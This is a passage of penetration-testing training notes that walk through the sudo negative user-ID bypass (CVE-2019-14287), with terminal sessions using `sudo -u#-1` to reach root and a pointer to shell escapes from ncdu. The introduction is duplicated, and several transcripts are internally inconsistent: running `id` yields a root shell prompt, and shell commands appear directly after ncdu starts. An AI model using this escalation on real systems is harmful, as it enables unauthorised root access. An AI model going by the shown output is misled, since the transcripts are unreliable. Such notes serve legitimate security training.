

# Sudo
The program sudo is used under UNIX operating systems like Linux or macOS to start processes with the rights of another user. In most cases, commands are executed that are only available to administrators. It serves as an additional layer of security or a safeguard to prevent the system and its contents from being damaged by unauthorized users. The /etc/sudoers file specifies which users or groups are allowed to run specific programs and with what privileges.
```
cry0l1t3@nix02:~$ sudo cat /etc/sudoers | grep -v "#" | sed -r '/^\s*$/d'
[sudo] password for cry0l1t3:  **********

Defaults        env_reset
Defaults        mail_badpass
Defaults        secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin"
Defaults        use_pty
root            ALL=(ALL:ALL) ALL
%admin          ALL=(ALL) ALL
%sudo           ALL=(ALL:ALL) ALL
cry0l1t3        ALL=(ALL) /usr/bin/id
@includedir     /etc/sudoers.d
```

# Sudo Policy Bypass Example 1

One vulnerability was found in 2019 that affected all versions below `1.8.28`, which allowed privileges to escalate even with a simple command. This vulnerability has the **[CVE-2019-14287](https://www.sudo.ws/security/advisories/minus_1_uid/)** and requires only a single prerequisite. It had to allow a user in the `/etc/sudoers` file to execute a specific command.
```
cry0l1t3@nix02:~$ sudo -l
[sudo] password for cry0l1t3: **********

User cry0l1t3 may run the following commands on Penny:
    ALL=(ALL) /usr/bin/id
```
In fact, `Sudo` also allows commands with specific user IDs to be executed, which executes the command with the user's privileges carrying the specified ID. The ID of the specific user can be read from the `/etc/passwd` file.
```
cry0l1t3@nix02:~$ cat /etc/passwd | grep cry0l1t3

cry0l1t3:x:1005:1005:cry0l1t3,,,:/home/cry0l1t3:/bin/bash
```
Thus the ID for the user `cry0l1t3` would be `1005`. If a negative ID (`-1`) is entered at `sudo`, this results in processing the ID `0`, which only the `root` has. This, therefore, led to the immediate root shell.
```
cry0l1t3@nix02:~$ sudo -u#-1 id

root@nix02:/home/cry0l1t3# id

uid=0(root) gid=1005(cry0l1t3) groups=1005(cry0l1t3)
```

# Sudo
The program sudo is used under UNIX operating systems like Linux or macOS to start processes with the rights of another user. In most cases, commands are executed that are only available to administrators. It serves as an additional layer of security or a safeguard to prevent the system and its contents from being damaged by unauthorized users. The /etc/sudoers file specifies which users or groups are allowed to run specific programs and with what privileges.
```
htb-student@ubuntu:~$ sudo -l
[sudo] password for htb-student: 
Matching Defaults entries for htb-student on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User htb-student may run the following commands on ubuntu:
    (ALL, !root) /bin/ncdu
```

# Sudo Policy Bypass Example 2

Another vulnerability was found in 2019 that affected all sudo versions below 1.8.28. It allows privilege escalation even when the sudoers policy explicitly denies running as root with the !root keyword. This CVE requires only one prerequisite: the user must be allowed to run at least one command as (ALL, !root).
In this configuration the administrator wanted to let the user run ncdu as any user except root for safety:
```
(ALL, !root) /bin/ncdu
```
This means the user should never be able to run ncdu as the root user.
However, sudo has a parsing bug when handling numeric user IDs. When you specify a negative user ID (-1), sudo’s internal conversion function incorrectly treats it as UID 0 (root), completely bypassing the !root blacklist.
```
htb-student@ubuntu:~$ sudo -u#-1 /bin/ncdu
```
Because ncdu now runs with root privileges, you immediately gain full root access. Inside the ncdu interface you can browse the entire filesystem (including /root), view sensitive files, or use built-in key combinations (commonly b → navigate → shell escape methods documented in GTFOBins) to drop a full root shell.

**Inside Program**


```
htb-student@ubuntu:~$ sudo -l
[sudo] password for htb-student: 
Matching Defaults entries for htb-student on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User htb-student may run the following commands on ubuntu:
    (ALL, !root) /bin/ncdu
htb-student@ubuntu:~$ sudo -u#-1 /bin/ncdu
# id 
uid=0(root) gid=1001(htb-student) groups=1001(htb-student)
# cd /root
# pwd
/root
#
```
